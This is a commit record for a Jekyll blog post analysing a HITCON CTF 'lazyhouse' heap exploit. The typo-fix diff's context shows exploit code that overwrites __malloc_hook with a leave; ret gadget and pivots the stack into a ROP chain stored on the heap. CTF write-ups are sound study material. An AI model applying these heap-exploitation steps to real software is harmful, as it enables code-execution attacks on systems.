

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-10-24-hitconctf-lazyhouse-balsn-exploit-analysis.markdown, in a window 1280 px wide and 900 px high, scrolled down 20318 px. Shown: the part 149-460 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Fixed typos

````diff
--- a/_posts/2019-10-24-hitconctf-lazyhouse-balsn-exploit-analysis.markdown
+++ b/_posts/2019-10-24-hitconctf-lazyhouse-balsn-exploit-analysis.markdown
@@ -837,7 +837,7 @@ Since our ROP chain starts at `heapbase+0xa88`, we will have successfully pivote
 
 After overwriting `__malloc_hook` with a `leave; ret` gadget, simply attempt to buy a house with a size of `heapbase+0xa80` to pivot the stack and return into the ROP chain that has already been stored on the heap:
 ```python
-# rbp Is set to the rsi before calling __malloc_hook is called in calloc
+# rbp is set to rsi before __malloc_hook is called in calloc
 # Therefore we pass heap+0xa80 as an argument, as our ROP chain starts at
 # heap+0xa88
 buy(4, heap+0xa80, 'A')
@@ -1105,7 +1105,7 @@ buy(2, 0x210, p64(0)*0x20 + p64(malloc_hook))
 # Overwrite __malloc_hook with a leave; ret gadget
 super_house(p64(leave_ret)) # __mpn_mul_n+83
 
-# rbp Is set to the rsi before calling __malloc_hook is called in calloc
+# rbp is set to rsi before __malloc_hook is called in calloc
 # Therefore we pass heap+0xa80 as an argument, as our ROP chain starts at
 # heap+0xa88
 buy(4, heap+0xa80, 'A')
````
